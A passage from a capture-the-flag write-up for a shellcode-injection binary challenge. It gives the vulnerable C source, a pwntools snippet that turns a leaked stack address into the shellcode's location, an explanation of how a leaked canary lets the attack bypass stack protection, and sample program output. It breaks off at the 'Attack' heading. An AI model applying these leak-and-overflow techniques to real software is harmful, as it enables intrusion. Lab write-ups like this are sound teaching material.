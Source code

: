 ```c
        puts("Show me your shellcode!");
        fgets(UwU, 0x30, stdin);
        
    }
    else {
        puts("Wow, it seems your shellcode is going to be very powerful. I'm looking forward to seeing its full potential!");
        fgets(UwU, shellcode_size, stdin);
    }

}

int main() {
	setvbuf(stdin,NULL,2,0);
	setvbuf(stdout,NULL,2,0);
	setvbuf(stderr,NULL,2,0);
	UwU_main();
    puts("hmmmmm seems that your shellcode isn't powerful enough.");
	return 0;
}
```
` printf("               %p               \n", &shellcode_size);` leaks a stack address, which mean we can get exact address of where our shellcode would be located.
```py
p.recvuntil("0x")
leak_addr = int(b'0x' + p.recvuntil(b' ', drop = True), 16)
shellcode_addr = leak_addr + 0x18 + 8 + 8
```
`printf("             %p             \n", *(unsigned long long *)(UwU + 0x8));` leaks canary value for us to bypass it 
### Example program output 
```
             O                O       
             |\      cɔ      /|       
             | \     /\     / |            
             |  \   /  \   /  |    <- What a beautiful crown, isn't it?
             |   \ /    \ /   |               
             |    V      V    |               
             |                |               
               0x7ffc204ad878               
             0x2e0e379fc3cac100             

||        ||                    ||        ||
||        ||                    ||        ||
||        ||                    ||        ||
||        ||                    ||        ||
||        ||                    ||        ||
||        ||                    ||        ||
||        ||     ||      ||     ||        ||
||        ||     ||  ||  ||     ||        ||
||        ||     ||  ||  ||     ||        ||
  ========         ==  ==         ========  


King of UwU is here to witness the power of your shellcode!
how long is your shellcode?
```
`how long is your shellcode?` legit waits for an input that determines the size of our payload, and if it's too large it will just make it `48` bytes 
## Attack 
The main challenge of this challenge is the indeed the size of shellcode.  